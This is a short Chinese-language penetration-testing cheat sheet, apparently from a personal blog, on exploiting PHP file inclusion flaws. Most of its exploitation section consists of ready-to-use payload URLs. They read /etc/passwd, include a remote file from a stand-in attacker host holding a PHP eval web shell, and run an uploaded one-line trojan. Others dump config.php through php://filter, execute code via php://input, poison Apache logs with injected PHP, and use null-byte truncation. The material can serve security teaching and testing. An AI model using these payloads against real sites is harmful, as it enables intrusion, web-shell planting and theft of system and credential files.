 ```yaml
---
# 这是页面的图标
icon: script
# 这是文章的标题
title: 文件包含
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-20
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 文件包含
comment: false
---
```


## 典型特征
```URL
?page=a.php
?home=b.html
?file=content
?name=a.php
```
## php常见导致文件包含的函数：
```php
include()
include_once()
require()
require_once()
fopen()
readfile()
```
## 利用
1. 读取文件
```url
http://www.xxser.com/index.php?page=/etc/passwd
```
2. 远程包含shell
allow_url_fopen=on 情况下
```url
http://www.example.com/index.php?page=http://www.attacker.com/echo.txt
其中echo.txt内容为:<?php eval($_POST[xxser]);?>
```
3. 本地包含配合文件上传
```url
上传一句话木马文件后，通过文件包含利用，非php扩展文件被包含后也会被当作php解析
http://www.example.com/index.php?page=./uploadfile/xxx.jpg
```
4. PHP协议
  - php://filter  
  一种元封装器，用于数据流打开时的筛选过滤应用
  ```url
  http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
  ```
  - php://input  
  php://input是个可以访问请求的原始数据的只读流,可以接收post请求，将请求作为PHP代码的输入传递给目标变量
  ```url
  http://www.example.com/index.php?page=php://input
  ```
5. 包含日志文件
```url
先访问：http://www.example.com/<?php phpinfo();?>生成日志
再访问：http://www.xxser.com/index.php?page=./../Apache-20/logs/access.log
关键在于确定apache路径
```
6. 截断包含
magic_quotes_gpc=off 情况下
```url
http://www.example.com/index.php?page=1.jpg%00
```
